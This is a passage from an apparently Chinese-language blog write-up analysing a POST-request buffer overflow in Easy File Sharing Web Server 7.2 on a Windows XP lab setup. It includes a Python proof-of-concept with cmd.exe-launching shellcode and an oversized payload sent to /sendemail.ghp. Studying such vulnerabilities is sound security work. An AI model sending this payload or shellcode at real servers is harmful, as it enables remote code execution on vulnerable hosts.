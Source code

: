 ```yaml
---
title: Easy File Sharing Web Server 7.2 - 'POST' 缓冲区溢出漏洞分析
categories: 漏洞分析与利用 信息安全
tags: 漏洞 缓冲区溢出
---
```

# 简介

看到这个软件，之前不是GET请求缓冲区溢出吗？  
（附上我的分析链接：http://blog.csdn.net/u012763794/article/details/66970749）

这次有个POST，看看有没有新鲜的东西啊！

参考：https://www.exploit-db.com/exploits/42165/

# 实验环境

> WinXP sp3 中文版  
>  EFS Web Server7.2  
>  windbg  
>  IDA  
>  mona  
>  python 2.7

# 漏洞分析

修改exp为poc：

    
    
    import httplib
    
    server = "127.0.0.1"
    
    #Shellcode Open CMD.exe
    shellcode = (
    "\x8b\xec\x55\x8b\xec"
    "\x68\x65\x78\x65\x2F"
    "\x68\x63\x6d\x64\x2e"
    "\x8d\x45\xf8\x50\xb8"
    "\xc7\x93\xc2\x77"
    "\xff\xd0")
    
    payload = "A" * 5000
    
    # Server address and POrt
    httpServ = httplib.HTTPConnection(server, 80)
    httpServ.connect()
    
    httpServ.request('POST', '/sendemail.ghp',
    'Email=%s&getPassword=Get+Password' % payload)
    